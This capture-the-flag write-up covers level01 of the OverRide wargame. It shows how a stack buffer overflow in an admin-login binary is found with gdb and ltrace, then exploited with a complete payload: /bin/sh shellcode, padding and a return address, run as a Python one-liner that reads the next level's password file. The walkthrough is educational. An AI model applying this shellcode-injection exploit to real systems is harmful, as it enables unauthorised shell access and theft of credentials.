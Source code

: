 # Level 01

Once logged in, you will see a binary.

```
$ ssh 164.92.144.154 -p 4242 -l level01
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 164.92.144.154:4242
level01@164.92.144.154's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
level01@OverRide:~$ ls
level01
level01@OverRide:~$
```

Let's run the program.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...

level01@OverRide:~$
```

We don't know how the program works, so let's take a look at the binary.

```
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.

gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
[...]
gdb-peda$ info variables
[...]
0x0804a040  a_user_name
```

We see there are functions, and global variable declared. By decompiling the source, we at least have an idea what the username and password are: `"dat_wil"` and `"admin"`. Even with the "correct" username and password, we still haven't captured the flag.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...

level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
aaaaaaaaaaaaaaaa
nope, incorrect password...

level01@OverRide:~$
```

Checking the source again, it appears that the second call to `fgets` reads in more bytes (`0x64` = 100) than the buffer's declared size (`0x40` = 64).

Let's try a [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to see if we can overwrite the `EIP` register for when it returns from `fgets`. This would allow us to insert a [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) into memory through user input and then return to it by modifying the `EIP` register with input as well.

This is the PETA GDB output after inputting the username `"dat_wil"` and a 200-character buffer overflow pattern (see link above). Note the `EIP` register that has been overwritten by `0x37634136` (`"6Ac7"` as a string)

Inputs:
```
dat_wil
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
                                                                                ^ 81 characters in (therefore an offset of 80)
```

PETA GDB output:
```
[----------------------------------registers-----------------------------------]
EAX: 0x1
EBX: 0x33634132 ('2Ac3')
ECX: 0xffffffff
EDX: 0xf7fd08b8 --> 0x0
ESI: 0x0
EDI: 0x41346341 ('Ac4A')
EBP: 0x63413563 ('c5Ac')
ESP: 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
EIP: 0x37634136 ('6Ac7')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x37634136
[------------------------------------stack-------------------------------------]
0000| 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
0004| 0xffffd724 ("c9Ad0Ad1Ad2")
0008| 0xffffd728 ("0Ad1Ad2")
0012| 0xffffd72c --> 0x326441 ('Ad2')
0016| 0xffffd730 --> 0x0
0020| 0xffffd734 --> 0xffffd71c ("6Ac7Ac8Ac9Ad0Ad1Ad2")
0024| 0xffffd738 --> 0xffffd7bc --> 0xffffd8f5 ("TERM=xterm-256color")
0028| 0xffffd73c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x37634136 in ?? ()
gdb-peda$ stack
0000| 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
0004| 0xffffd724 ("c9Ad0Ad1Ad2")
0008| 0xffffd728 ("0Ad1Ad2")
0012| 0xffffd72c --> 0x326441 ('Ad2')
0016| 0xffffd730 --> 0x0
0020| 0xffffd734 --> 0xffffd71c ("6Ac7Ac8Ac9Ad0Ad1Ad2")
0024| 0xffffd738 --> 0xffffd7bc --> 0xffffd8f5 ("TERM=xterm-256color")
0028| 0xffffd73c --> 0x0

```

The last thing we need to create the exploit input is the address where our shellcode will start. We find this by looking at where `fgets` stores the input during its second call (`0xffffd6ec`). (Note: in testing, we've found that this address can change if you run the command on different machines. If this address doesn't work, you can recalculate it with the following `ltrace` function.)

```
level01@OverRide:~$ ltrace ./level01 2> /tmp/ltrace.txt   # NOTE: sending ltrace output to a temp file
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...

level01@OverRide:~$ cat /tmp/ltrace.txt
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...)                     = 39
printf("Enter Username: ")                                      = 16
fgets("dat_wil\n", 256, 0xf7fcfac0)                             = 0x0804a040
puts("verifying username....\n")                                = 24
puts("Enter Password: ")                                        = 17
fgets("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"..., 100, 0xf7fcfac0)   = 0xffffd6ec
puts("nope, incorrect password...\n")                           = 29
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Here's the steps we used to get to our final exploit.

First step:

```
dat_wil    # the username that we found by disassembling verify_user_name()
[  shellcode  ] + [  padding up to 80 chars  ] + [  address  ]
```

Next step:

```
dat_wil
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B" * [  offset (80) - length of first (28) - 52  ] + [  `0xffffd6ec` in the correct endian-ness  ]
```

And now in Python:
```
python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)'
```

And now as a command:

```
(python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)' ; cat -) | ./level01
```

And now in action:
```
level01@OverRide:~$ (python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)' ; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
